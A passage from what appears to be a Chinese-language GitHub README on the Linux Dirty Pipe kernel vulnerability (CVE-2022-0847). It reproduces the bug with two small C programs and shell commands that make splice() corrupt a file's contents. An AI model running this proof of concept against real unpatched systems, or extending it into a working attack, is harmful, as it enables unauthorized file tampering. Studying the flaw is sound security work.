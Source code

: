 # CVE-2022-0847-DirtyPipe-Exploits

## 目錄
- 漏洞簡介
- 防禦方法
- case studies
- POC
- 參考資料
# POC
## My rig:
* Linux Kernel 5.8.1(vulnerable)
* Ubuntu 20.04 LTS desktop-amd64
* virtula box 6.1
## Reproducing the bug
原作者Max Kellermann提供了兩隻c程式來重現這個kernel的bug。我加了sleep來避免檔案成長太快，並且把"AAAAA"改成"AAAA\n"。
- 程式1(writer)  
```c
#include <unistd.h>
int main(int argc, char **argv) {
  for (;;) {write(1, "AAAA\n", 5);sleep(1);}
  
}
```
這隻程式會不斷的把"AAAA\n"送到stdout。  
如果我們執行
```sh
./writer >foo
```
則可以不斷的把AAAA寫到foo。
- 程式2(splicer)
```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
int main(int argc, char **argv) {
  for (;;) {
    splice(0, 0, 1, 0, 2, 0);
    //ssize_t splice(int fd_in, off64_t *off_in, int fd_out,off64_t *off_out, size_t len, unsigned int flags);
    //splice 2 bytes from stdin at offset 0, to stdout at offset 0
    write(1, "BBBBB", 5);
    sleep(1);
  }
}
```
這隻程式會不斷的做:
1. 用splice()從stdin拿2個byte放進stdout
2. 把"BBBBB"放進stdout。  
如果我們執行
```sh
./splicer <foo |cat >/dev/null
```
則會把foo的內容讀取進stdin給這隻程式，然後再cat這隻程式的stdout，並丟到黑洞裡。  
### **執行結果**
對於這兩隻c程式，我們觀察到**不同的執行順序伴隨不同的結果**。
1. 先執行第一隻程式，再同時執行第二隻c程式後，結果看起來正確。foo裡面只有A。
2. 先touch foo，再執行第二隻c程式，再同時執行第一隻c程式後，foo會看起來像這樣：
```AAAA
AAAA
BBBBBBBBBBBBBBBBBBB
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA

```
很明顯kernel存在bug，因為並沒有人去把BBBBB寫入foo，但foo卻出現了BBBBB。  
詳細的重現過程有錄成影片:https://www.youtube.com/watch?v=QcjMg_NUPIY



